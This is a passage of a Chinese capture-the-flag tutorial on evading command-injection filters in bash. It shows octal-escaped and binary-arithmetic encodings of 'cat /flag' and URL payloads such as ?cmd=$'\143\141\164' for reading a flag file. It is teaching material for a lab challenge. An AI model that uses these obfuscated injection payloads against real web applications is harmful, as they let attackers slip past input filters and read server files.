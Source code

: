 若 sh 的软连接指向 dash，那么用system函数也类似：

```
# $'\154\163'
sh: 1: $\154\163: not found
```

但是这种方法的缺陷就是无法一连串的指向带参命令，只能拆分开来：

```
bash-5.1# $'\143\141\164\40\57\146\154\141\147'
bash: cat /flag: No such file or directory

bash-5.1# $'\143\141\164' $'\57\146\154\141\147'
flag{TEST_Dynamic_FLAG}
```

不过好在关卡并没有禁用空格，你可以将他们写开：

A+空格+B：

```
?cmd=$'\143\141\164' $'\57\146\154\141\147'
```

当然如果禁用了空格，根据它允许字符集，你也可以使用:

```
?cmd=$'\143\141\164'<$'\57\146\154\141\147'
```

#### Level 10 - 二进制整数替换

引入了新的特性 —— 在bash中，支持二进制的表示整数的形式：`$((2#binary))`。

通过这一特性，我们可以使用二进制来构造八进制的整数形式 —— 注意这里并不是讲八进制转换为二进制，这里其实是用二进制来替换八进制中的每一位数字，如果你能读懂一些py或者js的源码，我们的转换器在这里基于下面的语句实现：

```js
function getOct(c) {
    return c.charCodeAt(0).toString(8); // 将字符的ASCII值转换为八进制字符串
}
binaryStr=parseInt(getOct(c), 10).toString(2); // 将八进制以十进制的方式转换为二进制
```

是否觉得在二进制中，`$((2#binary))` 中的2有些碍眼？我们可以通过左移运算 1<<1 的方式替换2，对此每一个八进制转义字符都可以被替换为如下形式：

```
$(($((1<<1))#binaryStr))
```

再在外面套上八进制的转义：

```
$\'\\$(($((1<<1))#binaryStr))'
```

但你如果直接实验，会发现这是行不通的，终端解析到八进制转义之后就不再继续解析了。

```
root@Hello-CTF:/home# $\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
$'\154\163': command not found
```
